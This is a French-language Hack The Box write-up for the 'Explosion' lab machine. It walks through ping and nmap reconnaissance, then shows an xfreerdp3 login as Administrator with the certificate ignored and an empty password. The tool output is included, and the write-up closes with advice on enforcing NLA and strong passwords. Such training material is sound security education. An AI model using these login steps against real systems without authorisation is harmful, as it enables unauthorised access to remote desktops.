


# Introduction

**Explosion** est la cinquième machine du parcours *Starting Point* de [Hack The Box](https://www.hackthebox.com/) (Tier 0). On change encore une fois de décor : après les fichiers (SMB) et les bases de données (Redis), on s’attaque à **l’interface graphique**.

>[!TIP]
Attention : Il s’agit d’une machine VIP. Vous aurez besoin d’un abonnement HTB pour pouvoir la lancer.

L’objectif c’est de comprendre le protocole **RDP** et voir comment une simple erreur de configuration peut donner les clés de la maison (littéralement) à un attaquant.

>[!WARNING]
>Dans ce writeup, je ne publie pas directement le flag final, l’objectif est d’apprendre en pratiquant. Si vous voulez le flag, suivez les étapes sur la machine.

>[!CAUTION]
>**NOTE :** n’attaquez que des machines sur lesquelles vous avez l’autorisation (ex. machines HTB, ou lab perso). Respectez les règles de la plateforme.

## Vidéo Walkthrough

Si tu préfères regarder un tuto plutôt que lire, voici ma vidéo :




---

## Reconnaissance

### Découverte d’hôte

Comme toujours, on commence par la base, est-ce que la cible répond ? Pour ça, un petit ``ping`` est parfait.

```bash
┌─[user@parrot]─[~]
└──╼ $ping 10.129.7.131

PING 10.129.7.131 (10.129.7.131) 56(84) bytes of data.
64 bytes from 10.129.7.131: icmp_seq=1 ttl=127 time=16.1 ms
64 bytes from 10.129.7.131: icmp_seq=2 ttl=127 time=15.2 ms
64 bytes from 10.129.7.131: icmp_seq=3 ttl=127 time=15.3 ms
^C
--- 10.129.7.131 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2137ms
rtt min/avg/max/mdev = 15.209/15.532/16.128/0.421 ms
```
La machine répond, le **TTL de 127** nous murmure déjà à l’oreille que nous sommes face à un système **Windows**. C’est une information précieuse pour la suite.

### Énumération des services

Lançons un scan ``nmap`` pour découvrir les services ouverts.

```bash
┌─[user@parrot]─[~]
└──╼ $sudo nmap -sV 10.129.7.131

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-12-10 20:41 UTC
Nmap scan report for 10.129.7.131
Host is up (0.022s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
On trouve plusieurs ports classiques de Windows, mais le plus intéressant est le **3389**. Ce port correspond au service **RDP** (Remote Desktop Protocol). C’est le protocole qui permet d’accéder à l’interface graphique d’un serveur à distance, un peu comme si vous étiez assis devant l’écran de la cible, avec la souris et le clavier en main.

---

## Pré-Exploitation

### Evaluation de vulnérabilité (Vulnerability Assessment)

Sur Windows, le compte roi est l’**Administrator**. Parfois, les administrateurs (les vrais, les humains) oublient de mettre un mot de passe ou désactivent l’authentification réseau par flemme ou pour des tests.

Pour tester ça, on va utiliser ``xfreerdp``, un client RDP très puissant pour Linux. Une première approche simple avec l’option ``/v:`` pour spécifier l'IP.

```bash
┌─[user@parrot]─[~]
└──╼ $xfreerdp3 /v:10.129.7.131

[20:49:15:602] [4210:00001073] [INFO][com.freerdp.client.x11] - [xf_pre_connect]: No user name set. - Using login name: user
[20:49:15:079] [4210:00001073] [WARN][com.freerdp.crypto] - [verify_cb]: Certificate verification failure 'self-signed certificate (18)' at stack position 0
<...SKIP...>
[20:49:47:240] [4210:00001073] [ERROR][com.freerdp.core] - [transport_ssl_cb]: ERRCONNECT_PASSWORD_CERTAINLY_EXPIRED [0x0002000F]
[20:49:47:240] [4210:00001073] [ERROR][com.freerdp.core.transport] - [transport_read_layer]: BIO_read returned an error: error:0A000438:SSL routines::tlsv1 alert internal error
```
En observant les logs, on remarque que le programme essaie par défaut d’utiliser notre nom d’utilisateur local :

``(user) : [INFO] - No user name set. - Using login name: user``

Ça ne marchera pas car ce compte n’existe probablement pas sur la cible.

---

## Exploitation

### Accès initial (RDP Login)

On va maintenant être plus malin. On va forcer l’utilisateur **Administrator** et demander à ``xfreerdp`` d’ignorer les certificats de sécurité (souvent auto-signés et donc “non valides” pour notre machine).

```bash
┌─[✗]─[user@parrot]─[~]
└──╼ $xfreerdp3 /v:10.129.7.131 /cert:ignore /u:Administrator

Domain:          
Password:        
[20:55:32:777] [4238:0000108f] [INFO][com.freerdp.core.nla] - [nla_client_setup_identity]: No credentials provided - using NULL identity
[20:55:32:777] [4238:0000108f] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5_parse_name (Configuration file does not specify default realm [-1765328160])
[20:55:32:777] [4238:0000108f] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5_parse_name (Configuration file does not specify default realm [-1765328160])
[20:55:32:998] [4238:0000108f] [WARN][com.freerdp.core.connection] - [rdp_client_connect_auto_detect]: expected messageChannelId=1008, got 1003
[20:55:32:998] [4238:0000108f] [WARN][com.freerdp.core.license] - [license_read_binary_blob_data]: license binary blob::type BB_ERROR_BLOB, length=0, skipping.
[20:55:32:124] [4238:0000108f] [WARN][com.freerdp.core.connection] - [rdp_client_connect_auto_detect]: expected messageChannelId=1008, got 1003
[20:55:32:228] [4238:0000108f] [INFO][com.freerdp.gdi] - [gdi_init_ex]: Local framebuffer format  PIXEL_FORMAT_BGRX32
[20:55:32:228] [4238:0000108f] [INFO][com.freerdp.gdi] - [gdi_init_ex]: Remote framebuffer format PIXEL_FORMAT_BGRA32
[20:55:32:389] [4238:0000108f] [INFO][com.freerdp.channels.rdpsnd.client] - [rdpsnd_load_device_plugin]: [static] Loaded fake backend for rdpsnd
[20:55:32:404] [4238:0000108f] [INFO][com.freerdp.channels.drdynvc.client] - [dvcman_load_addin]: Loading Dynamic Virtual Channel ainput
[20:55:32:404] [4238:0000108f] [INFO][com.freerdp.channels.drdynvc.client] - [dvcman_load_addin]: Loading Dynamic Virtual Channel rdpgfx
[20:55:32:404] [4238:0000108f] [INFO][com.freerdp.channels.drdynvc.client] - [dvcman_load_addin]: Loading Dynamic Virtual Channel rdpsnd
[20:55:33:952] [4238:000010a9] [INFO][com.freerdp.channels.rdpsnd.client] - [rdpsnd_load_device_plugin]: [dynamic] Loaded fake backend for rdpsnd
[20:55:33:302] [4238:0000108f] [INFO][com.freerdp.client.x11] - [xf_logon_error_info]: Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
```

*   ``/v:`` : L’ip de la cible
*   ``/cert:`` : On ne s’embête pas avec les alertes de sécurité du certificat.
*   ``/u:`` : On tente le "boss final" des noms d'utilisateurs.

Au moment où le terminal demande le **domain** et le **password**, on appuie simplement sur Entrée (on laisse vide).

TADA ! Une fenêtre s’ouvre et nous affiche directement le bureau Windows de la machine cible. Pas besoin de mot de passe, l’administrateur a laissé la porte grande ouverte !



### Récupération du flag

Une fois sur le bureau, on repère tout de suite un fichier texte nommé **flag.txt**. Il ne reste plus qu'à l'ouvrir pour admirer notre récompense.



Le flag est : ``951{…}8a0``

---

## Post-Exploitation

Il est rare de trouver un accès RDP “Administrator” sans mot de passe dans un environnement réel, mais cela arrive parfois sur des serveurs mal provisionnés ou des machines de test.

Conseil de sécurité : Toujours exiger une authentification forte (NLA) et des mots de passe complexes pour le RDP.

La machine est ***pwned*** !

<!-- ---

## Pour aller plus loin

### Script automatisé
Ce n'est pas encore fait mais je prévois de faire un script automatisé !

### Rapport professionnel
Ce n'est pas encore fait mais je prévois de faire un rapport professionnel ! -->